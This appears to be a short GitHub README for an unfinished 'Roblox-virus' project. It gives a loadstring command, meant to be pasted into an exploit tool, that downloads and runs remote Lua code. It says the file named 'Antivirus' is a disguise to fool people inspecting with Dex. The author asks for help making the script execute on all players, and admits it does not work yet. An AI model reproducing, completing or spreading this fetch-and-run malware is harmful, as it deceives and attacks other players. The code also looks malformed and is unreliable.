 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/Antivirus.Lua'), game.Workspace.ServerScriptService)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE IM SEARCHING THE BEST SCRIPT INIT , PLEASE WAIT)
(and the "AntiVirus" not is an antivirus , It is the mask of the virus, which makes no one with the Dex editor suspicious)
(And i need help to make that script executes on all players  )
